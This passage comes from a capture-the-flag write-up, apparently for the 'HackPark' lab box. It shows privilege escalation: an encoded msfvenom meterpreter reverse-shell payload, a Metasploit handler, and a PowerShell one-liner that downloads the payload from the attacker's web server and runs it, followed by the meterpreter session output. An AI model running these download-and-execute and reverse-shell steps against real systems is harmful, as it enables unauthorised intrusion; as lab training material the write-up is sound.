 The web server is running with the user `iis apppool\blog`. 

### Privilege Escalation 

- Lets create a meterpreter session for more stable executions, to do this, we need to create a payload using msfvenom:
`$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=4444 -f exe -o shell.exe`

- Open a reverse shell handler in Metasploit using the `exploit/multi/handler` with payload `windows/meterpreter/reverse_tcp` on port 4444.

- Start a simple web server using `python3 -m http.server` in same directory. 
In the reverse shell that was already opened earlier, with the help of powershell lets download the payload and start the process.
- 

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    c:\Windows\Temp>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    dir
    c:\Windows\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is 0E97-C552
     Directory of c:\Windows\Temp
    07/05/2020  08:34 AM    <DIR>          .
    07/05/2020  08:34 AM    <DIR>          ..
    08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
    08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
    08/06/2019  02:13 PM             1,206 cleanup.txt
    08/06/2019  02:13 PM               421 cmdout
    08/06/2019  02:11 PM                 0 DMI2EBC.tmp
    08/03/2019  10:43 AM                 0 DMI4D21.tmp
    08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
    08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
    07/05/2020  08:34 AM    <DIR>          Microsoft
    07/05/2020  08:34 AM            73,802 shell.exe
    08/06/2019  02:13 PM                21 stage1-complete.txt
    08/06/2019  02:13 PM            28,495 stage1.txt
    05/12/2019  09:03 PM           113,328 svcexec.exe
    08/06/2019  02:13 PM                67 tmp.dat
                  13 File(s)        708,784 bytes
                   3 Dir(s)  39,141,916,672 bytes free
    
    .\shell.exe
    c:\Windows\Temp>.\shell.exe  

- This should open a Meterpreter session: 
- 

    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > 
